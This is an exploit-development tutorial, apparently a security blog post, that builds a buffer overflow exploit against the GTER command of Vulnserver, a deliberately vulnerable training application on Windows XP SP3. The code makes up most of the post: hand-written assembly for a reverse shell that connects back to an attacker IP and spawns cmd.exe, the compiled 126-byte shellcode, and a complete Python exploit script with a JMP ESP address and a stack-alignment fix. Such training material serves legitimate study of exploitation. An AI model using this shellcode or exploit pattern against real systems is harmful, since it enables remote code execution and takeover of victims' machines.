 :slug: vulnserver-gter-no-egghunter/
:date: 2020-06-11
:category: attacks
:subtitle: Every byte counts
:tags: challenge, ethical hacking, pentesting, security, training, exploit
:image: cover.png
:alt: Photo by Florian Klauer on Unsplash
:description: In the previous post, we successfully exploited GTER command of Vulnserver using a technique called "Egghunting". It was needed to use that approach because we had a reduced space to work. In this post we will see an alternative way of exploiting this command.
:keywords: Bussiness, Information, Security, Protection, Hacking, Exploit, OSCE
:author: Andres Roldan
:writer: aroldan
:name: Andres Roldan
:about1: Cybersecurity Specialist, OSCP, CHFI
:about2: "We don't need the key, we'll break in" RATM
:source: https://unsplash.com/photos/mk7D-4UCfmg

= Vulnserver GTER Exploitation

This is the third article on the series of exploiting `Vulnserver`,
a VbD (Vulnerable-by-Design) application in which you can practice Windows
exploit development.

In our link:../vulnserver-gter/[previous post], we successfully exploited
the `GTER` command using a technique called `Egghunting` or `Egghunter`.

Using an egghunter was required because we had a reduced buffer to fit a
shellcode, as generated by `msfvenom` and other tools.

In this post, we will use a manually carved shellcode that will harness
instructions that are already loaded on `Vulnserver`, allowing us to
reduce the final length of our payload.

== Reverse shellcode X-ray

A reverse shellcode is basically a series of Windows API function calls,
arranged in a delicate order to make a victim machine connects back to the
attacker machine, issuing a Windows shell which is commonly an instance
of `cmd.exe`.

The order of execution of a fully crafted shellcode is the following:

. Call `WSAStartup()` to load the needed `WinSock` DLLs. Use a call to
`LoadLibraryA` underneath.
. Call `socket()` or `WSASocketA()` to bind a new socket handle.
. Call `connect()` or `WSAConnect()` to establish a connection to the
attacker machine.
. Call `CreateProcess()` which calls `cmd.exe` and where the `STDIN`, `STDOUT`,
and `STDERR` are redirected to the previously generated socket handle.

However, if we are exploiting a TCP/IP server like `Vulnserver`, chances are
that the 'WinSock' DLL library is already loaded and initialized, so we can
skip the first point on our custom shellcode.

As a reference, let's create a reverse shellcode using `msfvenom`:

.msfvenom
[source,bash]
----
$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.20 LPORT=4444 EXITFUNC=thread -f raw -o /dev/null -b '\x00'
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Saved as: /dev/null
----

This shellcode is 351 bytes long. And, if you remember on our link:../vulnserver-gter/[previous post],
we see that we only had around 144 bytes to play.

The whole idea of reusing instructions is to minimize the resultant shellcode.

To do that, we need to know what functions need to be called, with what
parameters, and translate that to Assembler language to then convert it to
our shellcode, having in mind to avoid null bytes that will led to become
our shellcode unusable.

With that in mind, let's look at the signatures of the needed functions:

=== WSASocketA()

.WSASocketA() signature
[source,cpp]
----
SOCKET WSAAPI WSASocketA(
  int                 af,
  int                 type,
  int                 protocol,
  LPWSAPROTOCOL_INFOA lpProtocolInfo,
  GROUP               g,
  DWORD               dwFlags
);
----

If we are going to write this in assembler, we must remind that the functions
are called in a very specific way:

. The parameters are pushed to the stack on reverse order
. Then we call the required function
. That function will store the returned value on `EAX`

For example, the structure for calling `WSASocketA` function is as follows:

. Push `dwFlags` parameter to the stack
. Push `g` parameter to the stack
. Push `lpProtocolInfo` parameter to the stack
. Push `protocol` parameter to the stack
. Push `type` parameter to the stack
. Push `af` parameter to the stack
. Call `WSASocketA()`
. Retrieve the return value of `WSASocketA()` from `EAX` which is the
resulting socket handle

We also need to know the exact address of the `WSASocketA()` on the system.
Normally, those function addresses won't change much on a specific version
of Windows, but will likely change over different updates, so keep that
in mind when creating custom shellcode.

For retrieving the addresss of functions on the current OS,
you can use the link:http://www.vividmachines.com/shellcode/arwin.c[arwin]
tool:

.arwin finding WSASocketA()
[source,bash]
----
C:\Documents and Settings\Administrator>arwin ws2_32 WSASocketA
arwin - win32 address resolution program - by steve hanna - v.01
WSASocketA is located at 0x71ab8b6a in ws2_32
----

Ok, with all the required information, we can proceed to write some Assembler
now:

.WSASocketA() in ASM
[source,asm]
----
xor ebx,ebx             ; Zero out EBX
push ebx                ; Push 'dwFlags' parameter
push ebx                ; Push 'g' parameter
push ebx                ; Push 'lpProtocolInfo' parameter
mov bl,0x6               ; Protocol: IPPROTO_TCP=6
push ebx                ; Push 'protocol' parameter
xor ebx,ebx             ; Zero out EBX again
inc ebx                 ; Type: SOCK_STREAM=1
push ebx                ; Push 'type' parameter
inc ebx                 ; Af: AF_INET=2
push ebx                ; Push 'af' parameter
mov ebx,0x71ab8b6a      ; Address of WSASocketA() on WinXPSP3
call ebx
xchg eax,esi            ; Save the returned socket handle on ESI
----


=== connect()

.connect() signature
[source,cpp]
----
int WSAAPI connect(
  SOCKET         s,
  const sockaddr *name,
  int            namelen
);
----

`sockaddr` is in turn:

[source,cpp]
----
struct sockaddr {
        ushort  sa_family;
        char    sa_data[14];
};
----

Get the address of `connect()`:

.arwin finding connect()
[source,bash]
----
C:\Documents and Settings\Administrator>arwin ws2_32 connect
arwin - win32 address resolution program - by steve hanna - v.01
connect is located at 0x71ab4a07 in ws2_32
----

Now, the connect() function in assembler will translate to:

.connect() in assembler
[source,asm]
----
push 0x1400a8c0         ; Push attacker IP: 192.168.0.20. In reverse order:
                        ; hex(20) = 0x14
                        ; hex(0) = 0x00
                        ; hex(168) = 0xa8
                        ; hex(192) = 0xc0
push word 0x5c11        ; Push port: hex(4444) = 0x115c
xor ebx,ebx             ; Zero out EBX
add bl,0x2              ; sa_family: AF_INET = 2
push word bx            ; Push sa_family parameter
mov ebx,esp             ; EBX now has the pointer to sockaddr structure
push byte 0x16             ; Size of sockaddr: sa_family + sa_data = 16
push ebx                ; Push pointer ('name' parameter)
push esi                ; Push saved socket handler ('s' parameter)
mov ebx,0x71ab4a07      ; Address of connect() on WinXPSP3
call ebx                ; Call connect()
----

Note that the attacker IP address parameter contains a null byte which
will stop the injection of the payload. To overcome that, we can add an
static value to that address, then substract it and push the result. This will
be the final `connect()` payload:


.connect() in assembler
[source,asm]
----
mov ebx,0x6955fe15      ; Attacker IP: 192.168.0.20. In reverse order:
                        ; hex(20) = 0x14
                        ; hex(0) = 0x00
                        ; hex(168) = 0xa8
                        ; hex(192) = 0xc0
                        ; 0x1400a8c0 + 55555555 = 6955FE15
sub ebx,0x55555555      ; Substract again 55555555 to get the original IP
push ebx                ; This will push 0x1400a8c0 to the stack without
                        ; injecting null bytes
push word 0x5c11        ; Push port: hex(4444) = 0x115c
xor ebx,ebx             ; Zero out EBX
add bl,0x2              ; sa_family: AF_INET = 2
push word bx            ; Push sa_family parameter
mov ebx,esp             ; EBX now has the pointer to sockaddr structure
push byte 0x16             ; Size of sockaddr: sa_family + sa_data = 16
push ebx                ; Push pointer ('name' parameter)
push esi                ; Push saved socket handler ('s' parameter)
mov ebx,0x71ab4a07      ; Address of connect() on WinXPSP3
call ebx                ; Call connect()
----

=== CreateProcess()

.CreateProcess() signature
[source,cpp]
----
BOOL CreateProcessA(
  LPCSTR                lpApplicationName,
  LPSTR                 lpCommandLine,
  LPSECURITY_ATTRIBUTES lpProcessAttributes,
  LPSECURITY_ATTRIBUTES lpThreadAttributes,
  BOOL                  bInheritHandles,
  DWORD                 dwCreationFlags,
  LPVOID                lpEnvironment,
  LPCSTR                lpCurrentDirectory,
  LPSTARTUPINFOA        lpStartupInfo,
  LPPROCESS_INFORMATION lpProcessInformation
);
----

We need to fill the `_STARTUPINFOA` structure. Luckily for us, most
of the parameters are NULL:

[source,cpp]
----
typedef struct _STARTUPINFOA {
  DWORD  cb;
  LPSTR  lpReserved;
  LPSTR  lpDesktop;
  LPSTR  lpTitle;
  DWORD  dwX;
  DWORD  dwY;
  DWORD  dwXSize;
  DWORD  dwYSize;
  DWORD  dwXCountChars;
  DWORD  dwYCountChars;
  DWORD  dwFillAttribute;
  DWORD  dwFlags;
  WORD   wShowWindow;
  WORD   cbReserved2;
  LPBYTE lpReserved2;
  HANDLE hStdInput;
  HANDLE hStdOutput;
  HANDLE hStdError;
} STARTUPINFOA, *LPSTARTUPINFOA;
----

And the `_PROCESS_INFORMATION` is even easier as all the fields can be NULL:

[source,cpp]
----
typedef struct _PROCESS_INFORMATION {
  HANDLE hProcess;
  HANDLE hThread;
  DWORD  dwProcessId;
  DWORD  dwThreadId;
} PROCESS_INFORMATION, *PPROCESS_INFORMATION, *LPPROCESS_INFORMATION;
----

Get the address of `CreateProcess()`:

.arwin finding CreateProcess()
[source,bash]
----
C:\Documents and Settings\Administrator>arwin kernel32 CreateProcessA
arwin - win32 address resolution program - by steve hanna - v.01
CreateProcessA is located at 0x7c80236b in kernel32
----

In assembler, this will look like this:

.CreateProcess() in assembler
[source,asm]
----
mov ebx,0x646d6341      ; Move 'cmda' to EBX.
shr ebx,0x8             ; Make EBX = 'cmd\x00'
push ebx                ; Push application name
mov ecx,esp             ; Make ECX a pointer to the 'cmd' command
                        ; ('lpCommandLine' parameter)

; Now fill the `_STARTUPINFOA` structure
xor edx,edx             ; Zero out EBX
push esi                ; hStdError = our socket handler
push esi                ; hStdOutput = our socket handler
push esi                ; hStdInput = our socket handler
push edx                ; cbReserved2 = NULL
push edx                ; wShowWindow = NULL
xor eax, eax            ; Zero out EAX
mov ax,0x0101           ; dwFlags = STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW
push eax                ; Push dwFlags
push edx                ; dwFillAttribute = NULL
push edx                ; dwYCountChars = NULL
push edx                ; dwXCountChars = NULL
push edx                ; dwYSize = NULL
push edx                ; dwXSize = NULL
push edx                ; dwY = NULL
push edx                ; dwX = NULL
push edx                ; lpTitle = NULL
push edx                ; lpDesktop = NULL
push edx                ; lpReserved = NULL
add dl,44               ; cb = 44
push edx                ; Push _STARTUPINFOA on stack
mov eax,esp       	   ; Make EAX a pointer to _STARTUPINFOA
xor edx,edx             ; Zero out EDX again

; Fill PROCESS_INFORMATION struct
push edx                ; lpProcessInformation
push edx                ; lpProcessInformation + 4
push edx                ; lpProcessInformation + 8
push edx                ; lpProcessInformation + 12


; Now fill out the `CreateProcessA` parameters
push esp                ; lpProcessInformation
push eax                ; lpStartupInfo
xor ebx,ebx             ; Zero out EBX to fill other parameters
push ebx                ; lpCurrentDirectory
push ebx                ; lpEnvironment
push ebx                ; dwCreationFlags
inc ebx                 ; bInheritHandles = True
push ebx                ; Push bInheritHandles
dec ebx                 ; Make EBX zero again
push ebx                ; lpThreadAttributes
push ebx                ; lpProcessAttributes
push ecx                ; lpCommandLine = Pointer to 'cmd\x00'
push ebx                ; lpApplicationName
mov ebx,0x7c80236b      ; Address of CreateProcess()
call ebx                ; Call CreateProcess() on WinXPSP3
----

== Putting it all together

Our final shellcode will be this:

.shellcode.asm
[source,asm]
----
; WSASocketA()
xor ebx,ebx             ; Zero out EBX
push ebx                ; Push 'dwFlags' parameter
push ebx                ; Push 'g' parameter
push ebx                ; Push 'lpProtocolInfo' parameter
mov bl,0x6               ; Protocol: IPPROTO_TCP=6
push ebx                ; Push 'protocol' parameter
xor ebx,ebx             ; Zero out EBX again
inc ebx                 ; Type: SOCK_STREAM=1
push ebx                ; Push 'type' parameter
inc ebx                 ; Af: AF_INET=2
push ebx                ; Push 'af' parameter
mov ebx,0x71ab8b6a      ; Address of WSASocketA() on WinXPSP3
call ebx
xchg eax,esi            ; Save the returned socket handle on ESI

; connect()
mov ebx,0x6955fe15      ; Attacker IP: 192.168.0.20. In reverse order:
                        ; hex(20) = 0x14
                        ; hex(0) = 0x00
                        ; hex(168) = 0xa8
                        ; hex(192) = 0xc0
                        ; 0x1400a8c0 + 55555555 = 6955FE15
sub ebx,0x55555555      ; Substract again 55555555 to get the original IP
push ebx                ; This will push 0x1400a8c0 to the stack without
                        ; injecting null bytes
push word 0x5c11        ; Push port: hex(4444) = 0x115c
xor ebx,ebx             ; Zero out EBX
add bl,0x2              ; sa_family: AF_INET = 2
push word bx            ; Push sa_family parameter
mov ebx,esp             ; EBX now has the pointer to sockaddr structure
push byte 0x16             ; Size of sockaddr: sa_family + sa_data = 16
push ebx                ; Push pointer ('name' parameter)
push esi                ; Push saved socket handler ('s' parameter)
mov ebx,0x71ab4a07      ; Address of connect() on WinXPSP3
call ebx

; CreateProcess()

mov ebx,0x646d6341      ; Move 'cmda' to EBX.
shr ebx,0x8             ; Make EBX = 'cmd\x00'
push ebx                ; Push application name
mov ecx,esp             ; Make ECX a pointer to the 'cmd' command
                        ; ('lpCommandLine' parameter)

; Now fill the `_STARTUPINFOA` structure
xor edx,edx             ; Zero out EBX
push esi                ; hStdError = our socket handler
push esi                ; hStdOutput = our socket handler
push esi                ; hStdInput = our socket handler
push edx                ; cbReserved2 = NULL
push edx                ; wShowWindow = NULL
xor eax, eax            ; Zero out EAX
mov ax,0x0101           ; dwFlags = STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW
push eax                ; Push dwFlags
push edx                ; dwFillAttribute = NULL
push edx                ; dwYCountChars = NULL
push edx                ; dwXCountChars = NULL
push edx                ; dwYSize = NULL
push edx                ; dwXSize = NULL
push edx                ; dwY = NULL
push edx                ; dwX = NULL
push edx                ; lpTitle = NULL
push edx                ; lpDesktop = NULL
push edx                ; lpReserved = NULL
add dl,44               ; cb = 44
push edx                ; Push _STARTUPINFOA on stack
mov eax,esp       	   ; Make EAX a pointer to _STARTUPINFOA
xor edx,edx             ; Zero out EDX again

; Fill PROCESS_INFORMATION struct
push edx                ; lpProcessInformation
push edx                ; lpProcessInformation + 4
push edx                ; lpProcessInformation + 8
push edx                ; lpProcessInformation + 12


; Now fill out the `CreateProcessA` parameters
push esp                ; lpProcessInformation
push eax                ; lpStartupInfo
xor ebx,ebx             ; Zero out EBX to fill other parameters
push ebx                ; lpCurrentDirectory
push ebx                ; lpEnvironment
push ebx                ; dwCreationFlags
inc ebx                 ; bInheritHandles = True
push ebx                ; Push bInheritHandles
dec ebx                 ; Make EBX zero again
push ebx                ; lpThreadAttributes
push ebx                ; lpProcessAttributes
push ecx                ; lpCommandLine = Pointer to 'cmd\x00'
push ebx                ; lpApplicationName
mov ebx,0x7c80236b         ; Call CreateProcess()
call ebx
----

We can compile this using `nasm`:

.nasm compilation
[source,bash]
----
$ nasm -f elf32 -o shellcode.o shellcode.asm
----

And obtain the resulting shellcode with:

[source,bash]
----
$ for i in $(objdump -d shellcode.o -M intel |grep "^ " |cut -f2); do echo -n '\x'$i; done; echo
\x31\xdb\x53\x53\x53\xb3\x06\x53\x31\xdb\x43\x53\x43\x53\xbb\x6a\x8b\xab\x71
\xff\xd3\x96\xbb\x15\xfe\x55\x69\x81\xeb\x55\x55\x55\x55\x53\x66\x68\x11\x5c
\x31\xdb\x80\xc3\x02\x66\x53\x89\xe3\x6a\x16\x53\x56\xbb\x07\x4a\xab\x71\xff
\xd3\xbb\x41\x63\x6d\x64\xc1\xeb\x08\x53\x89\xe1\x31\xd2\x56\x56\x56\x52\x52
\x31\xc0\x66\xb8\x01\x01\x50\x52\x52\x52\x52\x52\x52\x52\x52\x52\x52\x80\xc2
\x2c\x52\x89\xe0\x31\xd2\x52\x52\x52\x52\x54\x50\x31\xdb\x53\x53\x53\x43\x53
\x4b\x53\x53\x51\x53\xbb\x6b\x23\x80\x7c\xff\xd3
----

As you can see, the resulting shellcode is only 126 bytes long and will
nicely fits on our buffer without the need to use egghunters.

== Update our exploit

Now that we have our custom shellcode, we can update our
link:../vulnserver-gter/[previous exploit].

We will remove the egghunter and the previous shellcode and will include our
custom shellcode. Let's look how it looks now:

.exploit-socketreuse.py
[source,python]
----
import socket
import struct

HOST = '192.168.0.29'
PORT = 9999

CUSTOM_SHELL = (
    b'\x31\xdb\x53\x53\x53\xb3\x06\x53\x31\xdb\x43\x53\x43' +
    b'\x53\xbb\x6a\x8b\xab\x71\xff\xd3\x96\xbb\x15\xfe\x55' +
    b'\x69\x81\xeb\x55\x55\x55\x55\x53\x66\x68\x11\x5c\x31' +
    b'\xdb\x80\xc3\x02\x66\x53\x89\xe3\x6a\x16\x53\x56\xbb' +
    b'\x07\x4a\xab\x71\xff\xd3\xbb\x41\x63\x6d\x64\xc1\xeb' +
    b'\x08\x53\x89\xe1\x31\xd2\x56\x56\x56\x52\x52\x31\xc0' +
    b'\x66\xb8\x01\x01\x50\x52\x52\x52\x52\x52\x52\x52\x52' +
    b'\x52\x52\x80\xc2\x2c\x52\x89\xe0\x31\xd2\x52\x52\x52' +
    b'\x52\x54\x50\x31\xdb\x53\x53\x53\x43\x53\x4b\x53\x53' +
    b'\x51\x53\xbb\x6b\x23\x80\x7c\xff\xd3'
)

PAYLOAD = (
    b'GTER /.:/' +
    CUSTOM_SHELL +
    b'A' * (147 - len(CUSTOM_SHELL)) +
    # 625011C7 | FFE4 | jmp esp
    struct.pack('<L', 0x625011C7) +
    # JMP to the start of our buffer
    b'\xe9\x64\xff\xff\xff' +
    b'C' * (400 - 147 - 4 - 5)
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.recv(128)
    print('Sending payload...')
    fd.sendall(PAYLOAD)
    print('Done.')
----

It looks simpler! Now, run it to see what happens:

image::take1.gif[Take 1]

Uhmmm, we got the reverse connection but no shell!

Let's see what is going on

image::take2.gif[Take 1]

As we can see, there's several things happening:

. Our buffer was correctly delivered
. The `JMP ESP` instruction was successfully triggered
. The jump backwards ocurred
. And we landed at the start of our custom shellcode

However, if you look carefully a this image:

image::esp1.png[ESP]

We can see that the ESP register is only 24 bytes below the end of our
custom shellcode. That means that with every `PUSH` performed on our
custom shellcode, that pointer will be going do be closer to our custom
shellcode and will start *overwriting* it. That's not good news.

However, if you look at the image again, you can see that the `EAX` register
points to the `GTER /.:/` string which is above our shellcode.

All that's left to do is align the stack to point to that location and it's
done easily with two instructions:

.Align stack
[source,asm]
----
PUSH EAX
POP ESP
----

The first instruction will push the current value of `EAX` to the stack
and the second will pop back that value to the `ESP` register, moving the
stack pointer above our shellcode, protecting it from being overwritten.

We can use `nasm_shell.rb` from Metasploit to get the opcodes of that
instructions

.nasm_shell
[source,bash]
----
$ cd /opt/metasploit-framework/embedded/framework/tools/exploit
$ ./nasm_shell.rb
nasm > push eax
00000000  50                push eax
nasm > pop esp
00000000  5C                pop esp
----

Ok, now we can add that instructions to our exploit and see what happens:

.exploit-socketreuse.py
[source,python]
----
import socket
import struct

HOST = '192.168.0.29'
PORT = 9999

CUSTOM_SHELL = (
    b'\x31\xdb\x53\x53\x53\xb3\x06\x53\x31\xdb\x43\x53\x43' +
    b'\x53\xbb\x6a\x8b\xab\x71\xff\xd3\x96\xbb\x15\xfe\x55' +
    b'\x69\x81\xeb\x55\x55\x55\x55\x53\x66\x68\x11\x5c\x31' +
    b'\xdb\x80\xc3\x02\x66\x53\x89\xe3\x6a\x16\x53\x56\xbb' +
    b'\x07\x4a\xab\x71\xff\xd3\xbb\x41\x63\x6d\x64\xc1\xeb' +
    b'\x08\x53\x89\xe1\x31\xd2\x56\x56\x56\x52\x52\x31\xc0' +
    b'\x66\xb8\x01\x01\x50\x52\x52\x52\x52\x52\x52\x52\x52' +
    b'\x52\x52\x80\xc2\x2c\x52\x89\xe0\x31\xd2\x52\x52\x52' +
    b'\x52\x54\x50\x31\xdb\x53\x53\x53\x43\x53\x4b\x53\x53' +
    b'\x51\x53\xbb\x6b\x23\x80\x7c\xff\xd3'
)

PAYLOAD = (
    b'GTER /.:/' +
    # Align stack to avoid overwrite our shellcode
    b'\x50' +           # PUSH EAX
    b'\x5c' +           # POP ESP
    CUSTOM_SHELL +
    b'A' * (147 - 2 - len(CUSTOM_SHELL)) +
    # 625011C7 | FFE4 | jmp esp
    struct.pack('<L', 0x625011C7) +
    # JMP to the start of our buffer
    b'\xe9\x64\xff\xff\xff' +
    b'C' * (400 - 147 - 4 - 5)
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.recv(128)
    print('Sending payload...')
    fd.sendall(PAYLOAD)
    print('Done.')
----

And execute the exploit again...

image::success.gif[Shell]

Whooo! We got our shell again!

== Conclusion

This time I wanted to show that there are always ways to overcome
harsh exploitation environments, just by trying harder.


== References

. link:https://github.com/rapid7/metasploit-framework/blob/master/external/source/shellcode/windows/x86/src/block/block_shell.asm[Metasploit block_shell]
. link:https://docs.microsoft.com/en-us/windows/win32/api/winsock2/nf-winsock2-wsasocketa[WSASocketA function]
. link:https://docs.microsoft.com/en-us/windows/win32/api/winsock2/nf-winsock2-connect[connect function]
. link:https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessa[CreateProccessA function]